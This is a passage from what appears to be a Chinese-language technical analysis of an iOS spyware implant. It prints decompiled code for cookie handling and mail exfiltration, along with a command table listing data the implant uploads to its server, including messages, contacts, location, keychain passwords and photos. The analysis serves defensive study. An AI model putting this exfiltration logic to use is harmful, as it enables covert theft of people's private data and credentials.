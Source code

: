 ```

  req = [[NSMutableURLRequest alloc] initWithURL:url];
  if (self-&gt;_cookies) `{`
    [req addValue:self-&gt;_cookies forHTTPHeaderField:@"Cookie"];
  `}`

  id resp;
  [NSURLConnection sendSynchronousRequest:req
                   returningResponse: &amp;resp
                   error: nil];

  resp_cookie = [self getCookieFromHttpresponse:resp]
  if ([resp_cookie length] == 0) `{`
    self-&gt;_cookie = nil;
  `}` else `{`
    self-&gt;_cookie = resp_cookie;
  `}`

  NSLog(@"cookies: %@", self-&gt;_cookie)
`}`
```

此方法使用带有命令和可选数据参数的字典。以下是支持的命令列表：

```
systemmail  : upload email from the default Mail.app
device      : upload device identifiers
               (IMEI, phone number, serial number etc)
locate      : upload location from CoreLocation
contact     : upload contacts database
callhistory : upload phone call history 
message     : upload iMessage/SMSes
notes       : upload notes made in Notes.app
applist     : upload a list of installed non-Apple apps
keychain    : upload passwords and certificates stored in the keychain
recordings  : upload voice memos made using the built-in voice memos app
msgattach   : upload SMS and iMessage attachments
priorapps   : upload app-container directories from hardcoded list of
                third-party apps if installed (appPriorLists)
photo       : upload photos from the camera roll
allapp      : upload container directories of all apps
app         : upload container directories of particular apps by bundle ID
dl          : unimplemented
shot        : unimplemented
live        : unimplemented
```

每个命令负责将其结果上传到服务器上。每个命令完成后，对/ list/suc?name =X端点发出GET 请求，其中X是完成的命令的名称。包含设备序列号的cookie与GET请求一起发送。这些命令中通过基于所需信息和正在运行的iOS版本创建固定目录列表的tar来工作。

例如，这里是systemmail 命令的实现：

```
-[Service requestSystemMail] `{`
  NSLog(@"requestSystemMail")
  maildir = [Util dirOfSystemMail]
  if ([maildir length] != 0) `{`
    [Util tarWithSplit:maildir
          name:@"systemmail"
          block:^(id files) // dictionary `{`filename:filepath`}` 
          `{`
            while ([self postFiles:files] == 0) `{`
              [NSThread sleepForTimeInterval:10.0]
            `}`
          `}`
    ]
```
